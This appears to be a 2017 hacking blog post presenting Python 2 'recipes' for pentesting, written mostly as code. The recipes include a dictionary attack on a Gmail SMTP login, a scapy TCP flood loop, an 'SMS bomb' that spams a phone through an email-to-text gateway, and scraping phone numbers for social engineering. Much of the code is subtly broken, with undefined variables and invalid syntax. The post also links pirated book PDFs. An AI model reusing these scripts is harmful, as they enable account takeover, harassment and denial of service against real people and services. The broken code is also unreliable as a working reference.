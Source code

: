 ```yaml
---
title: Python for Security
date: 2017-04-08 00:00:00 Z
layout: post
comments: true
subtitle: My favorite recipes
author: ex0dus
---
```


Python is one of the greatest programming languages for hackers. Not because of its easiness actually, but it is __beginner-friendly__ and __fast to deploy__. One of the best thing about the language is the resemblance to that of a natural language, sharing syntactical and semantical rules that very much look like English.

    for i in range(0, 50):
      print "Hello"

Without a doubt, Python has that pseudocode feel that gives it the edge of being an _ideal_ language for the greenhorn. But still, with the vast variety of libraries, modules and frameworks available for the language, the use of Python is also incredibly __expansive__. In this article, we are going to implement Python for the intent of penetration testing.

Take __Black Hat Python__ for example. Great book. Ever wanted to build a quick TCP server? Simple. Implement `socket`. Make an object, connect, send some header data, and await a response. Working with networking and TCP/IP has never been easier.


    host = "www.test.com"
    port = 80
    obj = socket(socket.AF_INET, socket.SOCK_STREAM)
    obj.send("GET / HTTP/1.1\r\nHost:" + host + "\r\n\r\n")
    response = obj.recv(4096)
    print response

The point is, with an ever growing collection of Python libraries and easy to deploy code, Python is ideal for the modern hacker. If you ever look at some of the source code for popular pentesting tools, you will see a large
amount of Python.

Well, today I'm more of here to talk to about some applicable code you can use in pentesting situations, where you may not always have access to a Kali machine. And maybe with some ingenuity, you can even execute
this code on a mobile device. So here are my favorite Pythonic recipes.

## 1. Extract Phone Numbers
Let's start off with something simple. Say we want to siphon some Phone Numbers from a document or some sort of webpage. We want to social engineer these numbers, but the page is just spewing a ton of bullshit we don't care much for.

    import re, urllib
    url = "www.test.com/contact.html"
    htmlFile = urllib.urlopen(url)
  	html = htmlFile.read()
    phoneNums = re.findall(r'^(\+\d{1,2}\s)?\(?\d{3}\)?[\s.-]\d{3}[\s.-]\d{4}$', html)
    print phoneNums

The core component that you need to understand is 5th line, where you would see a random string. What is it?
That is known as a __regular expression__. This is basically a special string that signifies a specific
pattern to look for. That specific regex specified looks for standard phone-numbers in these formats:

    ###-###-####
    (###) ###-####
    ### ### ####
    ###.###.####

[(source for regex)](http://stackoverflow.com/questions/16699007/regular-expression-to-match-standard-10-digit-phone-number)

## 2. Hacking SMTP (email)

With the vast collection of modules for Python, there obviously is one for __SMTP__, also known as ___Simple
Mail Transfer Protocol___. This is the protocol utilized by email services. Let's make a simple script that launches a dictionary attack on a sample Gmail account (can be utilized on other SMTP services, such as Yahoo).

    import smtplib
    username = "hackme@gmail.com"
    # Specify a wordlist
    wordlist = open("wordlist.txt", 'r')
    for i in wordlist.readlines():
          password = i.strip("\n")
          try:
              s = smtplib.SMTP("smtp.gmail.com", 587)
              s.ehlo() # identify self to server to confirm working
              s.starttls() # start secure connect
              s.ehlo
              s.login(username, str(password))
              print "Found! Password: %s" % password
              s.close
            except:
              print "OOPs something went wrong"

Let's look at a few lines. the `for` keyword takes each newline within the `wordlist.txt` and appends it as a possible password. When we look at line 8, a SMTP object is defined, connecting to the Gmail SMTP server on port 587. The SMTP object would attempt to login using with the username, and each password from within the wordlist.

## 3. TCP DoS attack
This quick script provides a way for the user to employ a quick stress.

    from scapy import *
    target = "127.0.0.1" # replace with target IP address
    port = 80
    sport = 8080 # replace with source port, or import random to randomize.
    while True:
      send(IP(dst=target) / TCP(sport=x,dport=port), inter=.005)
      print "Sent. Kill with Ctrl + C"

We look at line 6. This implements the module `scapy`. Three variables are utilized, a target address, port,
and source port. The send() method identifies that, as well as using the TCP protocol.

## 4. Searching Vulnerability with Shodan
This script implements the `shodan` API in order to find vulnerable devices/services.

    import shodan
    SHODAN_API_KEY = # key here
    # Create object
    api = shodan.Shodan(SHODAN_API_KEY)
    try:
        results = api.search("") # string to search
        print "Result: %s" % results[total]
        for result in results['matches']:
            print "IP: %s" % result['ip_str']
            print result['data']
    except shodan.APIError, e:
        print "Something went wrong"

## 5. Scanning with Nmap
Very simple host scan using the `python-nmap` module.

    import python-nmap
    ip = '127.0.0.1' # replace with target host
    scan = nmap.PortScanner()
    scan.scan(ip, '0-65535') # scan host, all ports

## 6. Sniffing Bluetooth Devices

    from bluetooth import *
    from time import *
    found = []
    def findDevices():
        foundDevs = discover_devices(lookup_names = True)
        for (addr. name) in foundDevs:
            if addr not in alreadyFound:
                print "Found Device " + str(name)
                print "MAC Address: " + str(addr)
                found.append(addr)
    while True:
        findDevices()
        sleep(5)

## 7. SMS Bomb
This script uses the `smtplib`, just as the SMTP cracker does. However,
this time it is implemented on email-2-text carrier address.

    import smtplib
    # It is important to use a disposable Gmail account
    gmail = "test@gmail"
    password = "somepassword"
    target_num = "123-456-7890@vtext.com"
    # Example Verizon SMS address. Replace with carrier address of num.
    o = smtplib.SMTP("smtp.gmail.com:587")
    o.starttls()
    o.login(gmail, password)
    message = "Something hi"
    spam_msg = "From: {} \r\nTo: {} \r\n\r\n {}".format(gmail, phone_num, message)
    counter = 20 # execute 20 times
    for i in range(counter):
          o.sendmail(gmail, phone_num, spam_msg)

## 8. Geolocation
Take an IP address, and you get back some nice juicy information about geolocation.

    import pygeoip
    # GeoIP object
    gi = pygeoip.GeoIP('GeoIP.dat') # specify database file for GeoIP.
    gi = pygeoip.GeoIP('GeoIPRegion.dat') # region
    gi = pygeoip.GeoIP('GeoIPCity.dat') # city
    gi = pygeoip.GeoIP('GeoIPISP.dat') # ISP
    ip = "127.0.0.1" # replace with IP address!
    # Country
    gi.country_name_by_addr(ip) #=> "United States" for e.g
    gi.region_by_addr(ip) #=> {'region_name': 'NY', 'country_code': 'US'}
    gi.record_by_addr(ip) #=> Returns a huge dict of stuff Im not even gonna give an example
    gi.org_by_addr(ip) #=> "Super Techcom ISP Inc. Corp."
    # More info: https://github.com/appliedsec/pygeoip/wiki
    # Even more info: http://pygeoip.readthedocs.io/en/v0.3.2/getting-started.html

  That's just some of my favorite quick delicious recipes for evil malicious Pythonic hax3z.

  As a language that includes elements of a __procedural scripting__ language and __object-oriented__ language, Python provides at-ease use for both hackers and engineers. I rely greatly on Python when it comes to writing scripts and projects, and hopefully, I'll continue to utilize it. However, to add some variation, I'll start with some projects in C, Rust and Ruby as well. Exploitation is looking nice, so that's something I'm aiming at.

  Thanks for reading, and more is coming! Here is a gr8 list of books by hackers for hackers with relevance to Python:

  * [__Black Hat Python__](http://file.allitebooks.com/20150521/Black%20Hat%20Python.pdf)
  * [__Gray Hat Python__](http://www.chinastor.org/upload/2015-08/15081917086229.pdf)
  * [__Violent Python__](https://repo.zenk-security.com/Programmation/Violent%20Python%20a%20Cookbook%20for%20Hackers-Forensic%20Analysts-Penetration%20testers%20and%20Security%20Engineers.pdf)
 * and of course, if you are a beginner YEARNING to learn, here's a great classic:
 [__Automate the Boring Stuff with Python__](https://automatetheboringstuff.com/)

